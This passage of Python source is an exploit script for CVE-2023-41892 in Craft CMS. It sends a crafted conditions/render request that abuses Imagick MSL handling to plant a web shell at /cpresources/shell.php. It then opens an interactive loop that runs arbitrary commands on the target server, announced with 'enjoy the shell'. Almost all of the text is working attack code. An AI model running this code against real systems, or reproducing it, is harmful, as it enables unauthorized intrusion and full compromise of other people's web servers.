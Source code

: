 ```python
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})    

def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd}, proxies={"http": "http://localhost:8080"})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if upload_tmp_dir == "no value" else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)
```
